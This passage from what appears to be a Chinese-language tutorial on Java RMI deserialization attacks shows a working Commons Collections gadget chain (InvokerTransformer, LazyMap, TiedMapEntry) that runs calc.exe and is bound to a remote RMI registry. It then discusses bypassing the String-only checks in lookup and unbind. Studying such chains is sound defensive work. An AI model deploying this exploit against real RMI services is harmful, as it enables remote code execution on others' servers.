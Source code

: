 ```java
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        Registry registry = LocateRegistry.getRegistry("192.168.100.1", 1099);
        registry.bind("test", new Wrapper(expMap));
    }
}

class Wrapper implements Remote, Serializable {
    private Object obj;

    public Wrapper(Object obj) {
        this.obj = obj;
    }
}
```

注意 expMap 本身不继承自 Remote 接口, 需要自己写一个包装类

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211201842809.png)

#### unbind & lookup

unbind 和 lookup 方法也会调用 readObject, 不过必须是 String 类型

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211201845070.png)

根据 seebug 文章的思路, 有两种方法绕过: 伪造连接请求和利用 rasp hook 修改发送数据

这里我用的是前者, 因为 rasp 目前还没学到... (太菜了)

以 lookup 为例, 来看一下 RegistryImpl\_Stub 的 lookup 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211201848686.png)
